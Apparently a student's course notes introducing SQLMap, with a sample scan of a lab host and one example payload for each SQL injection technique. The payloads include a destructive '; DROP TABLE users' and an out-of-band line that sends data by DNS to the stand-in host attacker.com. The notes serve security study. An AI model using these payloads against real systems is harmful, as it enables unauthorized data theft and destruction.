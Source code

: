 
***
###### `Title :- Introduction`
###### `Created on :- 2023-06-21 - 19:33`
###### `Created by:- Prem J`
***

- [SQLMap](https://github.com/sqlmapproject/sqlmap) is a python based tool used to automate the process of detecting and exploiting SQLi.

```shell-session
prem@htb[/htb]$ python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'

       ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10.41#dev}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:55:56

[12:55:56] [INFO] testing connection to the target URL
[12:55:57] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:55:58] [INFO] testing if the target URL content is stable
[12:55:58] [INFO] target URL content is stable
[12:55:58] [INFO] testing if GET parameter 'id' is dynamic
[12:55:58] [INFO] confirming that GET parameter 'id' is dynamic
[12:55:59] [INFO] GET parameter 'id' is dynamic
[12:55:59] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:56:00] [INFO] testing for SQL injection on GET parameter 'id'
<...SNIP...>
```

- shell session above is the working process of SQLMap. It has numerous features and a powerful detection engine, and a broad range of options and switches for fine tuning many aspects of SQL Injection.
- Below are the few features offered by SQLMap

|   |   |   |
|---|---|---|
|Target connection|Injection detection|Fingerprinting|
|Enumeration|Optimization|Protection detection and bypass using "tamper" scripts|
|Database content retrieval|File system access|Execution of the operating system (OS) commands|


automated installation --> `sudo apt install sqlmap`
manual Installation --> `git clone --depth=1 https://github.com/sql/sqlmapproject/sqlmap.git sqlmap-dev`

- SQLMap supports wide range of databases and the team works to add new DBMSes periodically.
- Supported Injection Types can be viewed through `sqlmap -hh` command

```shell-session
premjampuram@htb[/htb]$ sqlmap -hh
...SNIP...
  Techniques:
    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
```

- The technique characters `BEUSTQ` refers to the following:

	- `B`: Boolean-based blind
	- `E`: Error-based
	- `U`: Union query-based
	- `S`: Stacked queries
	- `T`: Time-based blind
	- `Q`: Inline queries


![[Pasted image 20230616072058.png]]

#### `Boolean-based Blind SQLi -->`

- SQLMap exploits `Boolean-based blind SQL Injection` vulnerabilities through the differentiation of `TRUE` from `FALSE` query results, effectively retrieving 1 byte of information per request.

```sql
AND 1=1
```

- the differentiation is based on the server responses to determine whether the SQL query returned `TRUE` (Marginal difference between regular server response) or `FALSE` (substantial difference between regular server response)
- ***It is the Most common SQLi Type is Web Applications***. 

#### `Error Bases SQLi -->`

- The DBMS Error are returned as a part of server response then there are specialised payloads in the SQLMap that target specific misbehaviour's.

```sql
AND GTID_SUBSET(@@version,0)
```

![[Pasted image 20230616220101.png]]

- Similar to this kind but not exactly.

>[!Note]
>Error-based SQLi is considered as faster than all other types, except UNION query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called "chunks" through each request.

#### `Union Query Based SQLi -->`

- extending the original query using the union clause to retrieve our requirements.

```sql
UNION ALL SELECT 1,@@version,3
```

- This type of SQL injection is considered the fastest, as, in the ideal scenario, the attacker would be able to pull the content of the whole database table of interest with a single request.

#### `Stacked Queries -->`

- Stacking SQL queries, also known as the "piggy-backing," is the form of injecting additional SQL statements after the vulnerable one

```sql
; DROP TABLE users
```

- SQLMap can use such vulnerabilities to run non-query statements (INSERT, UPDATE, DELETE) executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi types.

#### `Time-based Blind SQLi -->`

- Response Time is used as the source for differentiating `TRUE` (Noticeable difference in the response time compared to regular response) or `FALSE` (Substantial difference in the response time compared to regular response)

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

- In comparison with Boolean-based time-based SQLi is slower. It is used in cases where Boolean-based SQLi is not applicable. 

#### `Inline Queries -->`

- The type of injection embedded a query within in the original query.

```sql
SELECT (SELECT @@version) from
```

- Such SQL injection is uncommon, as it needs the vulnerable web app to be written in a certain way. Still, SQLMap supports this kind of SQLi as well.

#### `Out-of-band SQLi -->`

- The ***most advanced types of SQLi***. This is used only if other types of SQLi are either unsupported or are too slow.

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

- SQLMap supports out-of-band SQLi through "DNS exfiltration," where requested queries are retrieved through DNS traffic.
- By running the SQLMap on the DNS server for the domain under control (e.g. `.attacker.com`), SQLMap can perform the attack by forcing the server to request non-existent subdomains (e.g. `foo.attacker.com`), where `foo` would be the SQL response we want to receive. 
- SQLMap can then collect these erroring DNS requests and collect the `foo` part, to form the entire SQL response.
